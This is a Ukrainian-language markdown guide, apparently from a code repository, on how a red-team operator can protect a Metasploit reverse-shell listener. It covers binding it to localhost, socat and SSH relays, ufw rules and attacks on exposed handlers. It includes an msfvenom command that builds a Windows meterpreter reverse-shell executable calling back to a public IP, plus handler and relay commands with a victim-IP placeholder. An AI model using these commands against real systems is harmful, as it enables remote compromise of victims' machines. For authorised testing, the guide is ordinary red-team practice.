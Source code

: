 # 🛡️ Захист Red Team-оператора під час роботи з публічною IP та реверс-сесіями

## 📋 Зміст

- [1. Основна загроза при відкритому listener'і](#1)
- [2. Мережеві режими віртуалки: безпека та атаки](#2)
- [3. Проксіювання реверс-сесії без відкритого listener'а](#3)
- [4. Використання ufw для обмеження доступу](#4)
- [5. Методи атаки на незахищену сесію](#5)
- [6. Команди, приклади, PoC](#6)

---

## <a name="1"></a>1. Основна загроза при відкритому listener'і

### Якщо handler відкритий (0.0.0.0:4444):

- Будь-хто в мережі/Інтернеті може:
  - Під'єднати фейковий шелл;
  - Атакувати Metasploit handler (використовуючи вразливості або автозапуск скриптів);
  - Сканувати та визначити fingerprint listener'а;
  - Перехопити або нав'язати C2-підключення.

### Що використовувати натомість:

- `set ReverseListenerBindAddress 127.0.0.1`
- Проксі трафік через `socat`, `ssh -R`, або `Tor Hidden Service`

---

## <a name="2"></a>2. Мережеві режими віртуалки: безпека та атаки

| Режим | IP Kali | Інтернет | Видимість | Примітка |
|-------|---------|----------|------------|----------|
| NAT | Приватний | ✅ | ❌ | Безпечний, але жертва не побачить Kali |
| Bridged | LAN IP (192.168.x.x) | ✅ | ✅ | Вразливий, якщо немає фаєрволу |
| Host-only | 192.168.56.x | ❌ | ❌ | Тільки Kali ↔ Host |
| Internal | ізольований | ❌ | ❌ | Для LAB |
| NAT Network | приватний | ✅ | ❌ | Потрібна ручна маршрутизація |

---

## <a name="3"></a>3. Проксіювання реверс-сесії без відкритого listener'а

### Listener в Kali:

```bash
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 4444
set ReverseListenerBindAddress 127.0.0.1
exploit -j
```

### Проксі на хості (ефективний для Metasploit payload):

```bash
socat TCP4-LISTEN:4444,fork TCP4:192.168.141.129:4444
```

### Або через SSH:

```bash
ssh -R 4444:127.0.0.1:4444 user@vps
```

### Ефективний механізм обмеження до одного shell через socat на nc -nlvp.
```bash
socat -T5000 TCP4-LISTEN:4444,fork,reuseaddr,max-children=1 TCP4:192.168.141.129:4444
```
```bash
socat -T300 TCP4-LISTEN:4444,fork,reuseaddr,range=192.168.141.10/32,max-children=1 TCP4:192.168.141.129:4444
```
🔍 Пояснення:

- `fork` – означає, що лише одне з’єднання обслуговується. Після встановлення з'єднання, обробить його у дочірньому процесі та продовжить слухати нові підключення;
- `max-children=1` — лише одне з’єднання, не запускається без `fork`.
- `socat` завершується після закриття shell'у, не чекає нові конекшени;
- без `-T` – щоб уникнути тайм-ауту без активності;
- `pty` – інтерактивна оболонка;
- `stderr,sigint,sane` – для повноцінного користування оболонкою.
- `range=192.168.141.10/32` — дозволити тільки одне джерело.

---

## <a name="4"></a>4. Використання ufw для обмеження доступу

### Базова настройка:

```bash
sudo ufw enable
sudo ufw default deny incoming
sudo ufw default allow outgoing
```

### Дозволити лише конкретному IP:

```bash
sudo ufw allow from 192.168.3.110 to any port 4444 proto tcp
```

---

## <a name="5"></a>5. Методи атаки на незахищену сесію

- "Back Shell" — атакуючий надсилає свій payload у відкритий handler
- Використання `AutoRunScript` для виконання коду на Kali
- Зловживання Metasploit API (`msgrpc`)
- Підміна `meterpreter`-сесії
- Експлуатація через неправильні ACL або небезпечні модулі

---

## <a name="6"></a>6. Команди, приклади, PoC

### Reverse Shell генерація:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=25.25.25.25 LPORT=4444 -f exe > shell.exe
```

### Локальний захищений handler:

```bash
set lhost 127.0.0.1
set ReverseListenerBindAddress 127.0.0.1
```

`ReverseListenerBindAddress` визначає, на яку локальну IP-адресу на вашій атакуючій машині буде прив'язаний (bind) слухач. Це означає, що Metasploit буде слухати вхідні з'єднання лише на цій конкретній IP-адресі.

`set ReverseListenerBindAddress 127.0.0.1` означає, що слухач буде прив'язаний до локального інтерфейсу зворотного зв'язку (localhost) вашої машини. Тобто, Metasploit буде чекати з'єднань лише від самої себе.

### Проксі + захист:

```bash
socat TCP4-LISTEN:4444,fork TCP4:127.0.0.1:4444
sudo ufw allow from ЖЕРТВА_IP to any port 4444 proto tcp
```

---

## 🧩 Рекомендації:

- Listener завжди на `127.0.0.1`
- Проксі тільки з IP-фільтрами
- Контроль кількості підключень (`socat max-children=1`)
- Моніторинг через `tcpdump`, `ss`, `netstat`
